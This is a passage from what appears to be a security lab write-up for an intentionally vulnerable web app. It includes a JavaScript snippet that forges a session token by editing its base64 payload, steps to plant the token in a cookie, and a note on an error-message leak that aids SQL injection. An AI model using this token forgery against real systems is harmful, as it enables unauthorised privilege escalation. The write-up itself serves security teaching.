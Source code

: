     const decodedPayload = Buffer.from(payload, 'base64');
    const modifiedPayload= decodedPayload.toString('utf8').replace("0","1");
    console.log(modifiedPayload)

    const payloadBase64 = Buffer.from(modifiedPayload).toString('base64');

    const newToken = header+"."+payloadBase64
    console.log("New Token:", newToken.replace(/\+/g, "-").replace(/\//g, "_").replace(/=/g, "."))
    
    }
    ```
3. Now that you have obtained the modified token, do a log out , replace it with the original token by placing it in the cookie section and reload the page.

### CWE-209: Generation of Error Message Containing Sensitive Information
1. In the log in function there is a console.trace(err) that in case of an error reports all the path following the error. If by chance there should be an internal system error, we can simulate it by simply changing the name of the database, the attacker receives this error.
![cwe-209](./img/cwe-209.png)

2. This disclosure of information certainly helps the attacker to exploit the CWE-89 SQL Injection vulnerability. 
